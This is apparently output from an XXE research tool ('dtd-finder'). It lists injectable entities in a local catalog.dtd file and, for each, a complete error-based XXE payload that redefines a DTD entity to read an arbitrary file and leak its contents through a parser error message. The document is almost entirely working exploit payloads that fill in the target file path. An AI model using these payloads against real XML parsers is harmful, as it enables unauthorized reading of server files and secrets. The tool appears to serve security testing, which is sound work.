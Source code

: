 **DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `partialPublicIdentifier`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % partialPublicIdentifier '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `uriReference`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % uriReference '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`
